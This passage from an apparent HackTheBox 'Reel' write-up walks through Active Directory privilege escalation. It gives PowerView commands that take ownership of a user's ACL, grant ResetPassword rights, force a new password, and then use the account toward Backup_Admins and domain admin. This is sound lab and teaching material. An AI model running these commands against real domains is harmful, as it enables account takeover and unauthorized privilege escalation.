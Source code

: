 ### Changing Claire's Password

As we have control over Claire, we can use `PowerView.ps1` which is already on the box, to:

- Become owner of claire’s ACL's
- Get the permissions on that ACL
- Use those aquired permissions to change the password of claire
- SSH as Claire

These are the commands we will use to change Claire's Password:
{% highlight powershell %}
. .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "password123!" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
{% endhighlight %}

![commands](/images/hackthebox-writeups/reel/commands.png)

### SSH as Claire

Now that we have changed claires credentials to, `claire:password123!` we can login as claire over ssh.

![claire-ssh](/images/hackthebox-writeups/reel/claire-ssh.png)

## Claire to Domain Admin

Now that we have access to claire's account we can add ourselves to the `Backup_Admins` group.

![add-command](/images/hackthebox-writeups/reel/claire-ba-add.png)
